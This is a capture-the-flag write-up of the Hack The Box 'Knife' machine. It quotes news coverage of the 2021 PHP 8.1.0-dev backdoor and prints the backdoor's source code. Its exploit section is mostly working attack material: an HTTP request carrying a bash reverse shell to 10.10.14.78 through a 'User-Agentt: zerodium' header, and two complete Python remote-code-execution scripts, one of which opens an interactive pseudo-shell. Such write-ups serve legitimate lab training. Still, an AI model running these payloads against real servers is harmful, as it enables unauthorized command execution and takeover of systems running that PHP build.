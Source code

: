 ```yaml
---
title: HTB Write Up - Knife
date: 2023-11-10 12:00:00
categories: [Pentest, HTB]
tags: [HTB]
---
```


## Step 1: Info gathering 
### Nmap

![](https://i.imgur.com/Jsb8j7r.png)

### Nikto
![](https://i.imgur.com/QpiosT3.png)

## Step 2: Vulnerablilty analysis 

### php 8.1.0-dev

>Two updates pushed to the PHP Git server added a line that, "if run by a PHP-powered website, would have allowed visitors with no authorization to execute code of their choice. The malicious commits here and here gave the code the code-injection capability to visitors who had the word “**zerodium**” in an HTTP header."
>
>The commits were made to the php-src repo under the account names of two well-known PHP developers, Rasmus Lerdorf and Nikita Popov. “We don't yet know how exactly this happened, but everything points toward a compromise of the git.php.net server (rather than a compromise of an individual git account),” Popov wrote in a notice published on Sunday night.
In the aftermath of the compromise, Popov said that PHP maintainers have concluded that their standalone Git infrastructure is an unnecessary security risk. As a result, they will discontinue the git.php.net server and make GitHub the official source for PHP repositories. Going forward, all PHP source code changes will be made directly to GitHub rather than to git.php.net.
>
>The malicious changes came to public attention no later than Sunday night by developers including Markus Staab, Jake Birchallf, and Michael Voříšek as they scrutinized a commit made on Saturday. The update, which purported to fix a typo, was made under an account that used Lerdorf’s name. Shortly after the first discovery, Voříšek spotted the second malicious commit, which was made under Popov’s account name. It purported to revert the previous typo fix.
>
>Zerodium is a broker that buys exploits from researchers and sells them to government agencies for use in investigations or other purposes. Why the commits referenced Zerodium is not clear. The company’s CEO, Chaouki Bekrar, said on Twitter Monday that Zerodium wasn’t involved.
{: .prompt-tip }

[Reference](https://arstechnica.com/gadgets/2021/03/hackers-backdoor-php-source-code-after-breaching-internal-git-server/)


```php
zval *enc;

	if ((Z_TYPE(PG(http_globals)[TRACK_VARS_SERVER]) == IS_ARRAY || zend_is_auto_global_str(ZEND_STRL("_SERVER"))) &&
		(enc = zend_hash_str_find(Z_ARRVAL(PG(http_globals)[TRACK_VARS_SERVER]), "HTTP_USER_AGENTT", sizeof("HTTP_USER_AGENTT") - 1))) {
		convert_to_string(enc);
		if (strstr(Z_STRVAL_P(enc), "zerodium")) {
			zend_try {
				zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
			} zend_end_try();
		}
	}
```
![](https://i.imgur.com/yh1qDaj.png)

## Step 3: Exploit 

### Method 1: using Burpsuite 
```http
GET / HTTP/1.1
Host: 10.10.10.242
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
User-Agenttwho: zerodiumsystem("/bin/bash -c 'bash -i >&/dev/tcp/10.10.14.78/1444 0>&1'");
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

### Method 2: using Python
```python
# Exploit Title: PHP 8.1.0-dev (backdoor) | Remote Command Injection (Unauthenticated)
# Date: 23/05/2021
# Exploit Author: Richard Jones
# Vendor Homepage: https://www.php.net/
# Software Link: https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor
# Version: PHP 8.1.0-dev
# Tested on: Linux Ubuntu 20.04.2 LTS (5.4.0-72-generic)

# Based on the recent PHP/8.1.0-dev backdoor
# Infomation: https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a?branch=2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a&diff=unified#diff-a35f2ee9e1d2d3983a3270ee10ec70bf86349c53febdeabdf104f88cb2167961R368-R370
# Reference: https://news-web.php.net/php.internals/113838
# Vuln code in the link above (Original)
# When adding "zerodium" or  at the start of the user-agent field, will execute php code on the server
#  convert_to_string(enc);
#	if (strstr(Z_STRVAL_P(enc), "zerodium")) {
#		zend_try {
#			zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");


#Usage: python3 php_8.1.0-dev.py -u http://10.10.10.242/ -c ls

#!/usr/bin/env python3
import requests
import argparse

from requests.models import parse_header_links 

s = requests.Session()

def checkTarget(args):
    r = s.get(args.url)    
    for h in r.headers.items():
        if "PHP/8.1.0-dev" in h[1]:
            return True
    return False


def execCmd(args):
    r = s.get(args.url, headers={"User-Agentt":"zerodiumsystem(\""+args.cmd+"\");"})
    res = r.text.split("<!DOCTYPE html>")[0]
    if not res:
        print("[-] No Results")
    else:
        print("[+] Results:")
    print(res.strip())


def main():

    parser = argparse.ArgumentParser()
    parser.add_argument("-u", "--url", help="Target URL (Eg: http://10.10.10.10/)", required=True)
    parser.add_argument("-c", "--cmd", help="Command to execute (Eg: ls,id,whoami)", default="id")
    args = parser.parse_args()

    if checkTarget(args):
        execCmd(args)
    else:
        print("[!] Not Vulnerable or url error")
        exit(0)
    
if __name__ == "__main__":
    main()
```
or 
```python
# Exploit Title: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
# Date: 23 may 2021
# Exploit Author: flast101
# Vendor Homepage: https://www.php.net/
# Software Link: 
#     - https://hub.docker.com/r/phpdaily/php
#    - https://github.com/phpdaily/php
# Version: 8.1.0-dev
# Tested on: Ubuntu 20.04
# References:
#    - https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
#   - https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md

"""
Blog: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
Download: https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py
Contact: flast101.sec@gmail.com

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.
"""

#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
            
```

## Step 4: Privilege escalation
Why not try Dirty_COW??


